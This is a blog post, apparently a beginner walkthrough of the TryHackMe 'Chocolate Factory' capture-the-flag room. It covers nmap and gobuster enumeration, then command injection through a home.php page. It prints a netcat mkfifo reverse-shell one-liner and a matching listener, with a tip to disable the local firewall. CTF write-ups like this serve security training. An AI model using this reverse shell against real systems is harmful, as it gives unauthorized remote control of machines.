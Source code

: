 ```yaml
---
layout: post
title: Tryhackme Chocolate Factory Walkthrough 
date: 2017-09-12 00:00:00 +0300
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: titlephoto1.jpg # Add image post (optional)
tags: [Tryhackme, CTF] # add tag
---
```


Today’s blog post — I will give a walk-through on room called, “Chocolate Factory”. This is perfect practice for Beginners 

Let’s get started.
Firstly Diploy the machine and Wait a minute for get ip address to start.

![init]({{site.baseurl}}/assets/img/cholocate.tryhackme/init.png)

### Enumeration 
 > sudo nmap -sV -sC -v <ip>
  
  -sV: Probe open ports to determine service/version info
  -sC: equivalent to --script=default
   -v: verbose mode
the result like look,
 ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/nmap.png)  

There can see ftp running on port 21,ssh running on port 22 and webserver in port 80 Then try Open browser enter ip address default webserver running in port 80 

I trying sqlinjection but nothing changes ,So Check the directories using gobuster 
> gobuser dir -u <ip> -w /usr/share/seclists
  
OK.. Here see home.php 
 ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/command.ls.png)  
  try system commands then reverse connection command 
  > rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
 
 remember one thing disable your ufw firewall
  listern our system 
  > nc -lvnp 
    -l listen mode, for inbound connects
    -v verbose
    -n numeric-only IP addresses, no DNS
    -p local port number
   ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/reverse2.png) 
   
  
 

